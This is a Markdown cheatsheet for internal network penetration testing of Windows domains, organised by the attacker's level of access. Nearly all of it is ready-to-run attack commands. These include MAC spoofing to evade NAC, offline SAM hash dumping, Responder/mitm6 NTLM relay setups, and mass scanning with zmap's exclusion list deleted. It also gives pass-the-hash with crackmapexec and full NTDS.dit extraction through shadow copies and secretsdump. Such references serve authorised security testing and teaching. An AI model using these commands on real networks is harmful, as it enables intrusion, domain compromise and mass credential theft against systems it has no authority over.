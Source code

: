 # Internal Penetration Testing

## 1. **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP

> For more details, see next cheatsheet : [WiFi](02-wifi.md)

### NAC - MAC filtering

1. Spoof mac, static ip, gateway ip, from any authorized device \(e.g printer or voip phone\), and disconnect it: 
```sh
macchanger -r eth0
```
2. force your static IP to match the one that you spoofed the mac from : 
```sh
sudo ifconfig <static_ip>/24 && sudo ip route add default via <gateway_ip>
```

### NAC - 802.1X

* [Fenrir](https://github.com/Orange-Cyberdefense/fenrir-ocd) (IEEE 802.1X bypass)

---

## 2. **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
fdisk -l
mount /dev/<windows_disk> /mnt
cd /mnt/Windows/system32/Config
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```
> For more details, see next cheatsheet : [Windows Post Exploitation](05-post-exploitation-windows.md)

---

### Network Access

**Man-In-The-Middle**

Responder + NTLMrelayx

```bash
# 1. First we need to edit  responder.conf :
sudo vim /usr/share/responder/Responder.conf
	SMB = Off     # Turn this off
	HTTP = Off    # Turn this off

# 2. Then we create a list of targets :
## For small range
crackmapexec smb <targets> --gen-relay-list relaylistOutputFilename.txt
## For big range
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
crackmapexec smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt

# 3. After we can run ntlmrelayx
impacket-ntlmrelayx -tf relaylistOutputFilename.txt -smb2support --output-file relayed-hash.txt

# 4. Finally, using another shell, we can run Responder
## Light
./Responder.py -I eth0 
## Medium (enable wpad, netbios domain and wredir suffix queries)
./Responder.py -I eth0 -dw
## Full (Force WPAD and ProxyAuth)
./Responder.py -I eth0 -dwFP
```

> If limited to a Windows system, you can use Inveigh instead of Responder : 
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)


mitm6 + NTLMrelayx

```bash
sudo mitm6 -d <domain.fqdn> --ignore-nofqdn
impacket-ntlmrelayx -tf relaylistOutputFilename.txt -6 

# If no smb available, try ldap/ldaps/mssql : 
impacket-ntlmrelayx -t ldaps://<target> -l lootdir
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

---

**Port and service scan**

Hosts discovery from huge ranges

zmap on a single port (linux and windows)

```bash
sudo apt install zmap && sudo rm /etc/zmap/blacklist.conf && sudo touch /etc/zmap/blacklist.conf
sudo zmap -p22 10.0.0.0/8 192.168.0.0/16 -o zmap_linux.ips
sudo zmap -p445 10.0.0.0/8 192.168.0.0/16 -o zmap_windows.ips
```

masscan on identified ranges

```bash
cat zmap_*.ips |awk -F. '{print $1"."$2"."$3".0/24"}' |sort -u > masscan_targets.ips
masscan -iL masscan_targets.ips -p 21,22,23,80,443,445,5985,5986,8080,8443,5900 -oG masscan.grep
```

nmap on identified hosts

```bash
nmap -sV --version-all -Pn -sT --top-ports 3000  -iL masscan.grep -oA all_hosts
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 --script=*ms17-010* -oA SMB_MS17 <hosts>
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

> For more details, see previous cheatsheet : [External Penetration Testing](../external/01-web-global.md)

---


## 3. **Unprivileged account only**

### Get a shell

> For more details, see next cheatsheets : [Shell](../useful-commands/shell.md) and [AV Bypass](09-antivirus-bypass)

---

### Local Privilege Escalation

> For more details, see next cheatsheet : [Local Privilege Escalation Windows](03-lpe-windows.md)

---

### Domain Escalation

> For more details, see next cheatsheet : [Domain Escalation](08-domain-escalation.md)

---

## 4. **Local Admin account**

### Post-Exploitation

> For more details, see next cheatsheet : [Local Post Exploitation Windows](05-post-exploitation-windows.md)

### Pivoting

> For more details, see next cheatsheet : [Pivoting](07-pivoting.md)

### Replay the secrets found

Kerberos ticket, LM/NTLM hash or cleartext password with CrackMapExec or lsassy

```bash
crackmapexec smb <host_file> -d <domain> -u <user>  -H <hash> --lsa
crackmapexec smb <host_file> -d <domain> -u <user>  -H <hash> --sam
lsassy <target> -d <domain> -u <user> -p <pass>
```

---

## 5. **Domain admin account**

### Dump NDTS.dit from DC

```bash
# CrackMapExec using password
sudo crackmapexec smb <target> -u <domain_admin> -p '<pass>' --ntds

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo crackmapexec smb <target> --kerberos --ntds drsuapi

# Antivirus blocking default drsuapi method, try vss method instead
sudo crackmapexec smb <target> -u <domain_admin> -p '<pass>' --ntds vss

# dump krbgt hash only
impacket-secretsdump <domain>/<domain_admin>:'<pass>'@<target> -history -just-dc -just-user krbgt
```

### Manual Dump

```bash
# 1) use any tool that can achieve command execution on remote target to make a shadow copy
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\Windows\NTDS.dit.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Windows\SYSTEM.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\Windows\SECURITY.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\Windows\SAM.bak

# 2) use any tool that can retrieve these 4 files 
smbmap -d <domain> -u <user> -p <pass> -H <target> --download-file 'C:\Windows\NTDS.dit.bak'
smbmap -d <domain> -u <user> -p <pass> -H <target> --download-file 'C:\Windows\SYSTEM.bak'
smbmap -d <domain> -u <user> -p <pass> -H <target> --download-file 'C:\Windows\SECURITY.bak'
smbmap -d <domain> -u <user> -p <pass> -H <target> --download-file 'C:\Windows\SAM.bak'

# 3) Locally parse theses files
impacket-secretsdump -ntds NTDS.dit.bak -system SYSTEM.bak -security SECURITY.bak -sam SAM.bak LOCAL
```

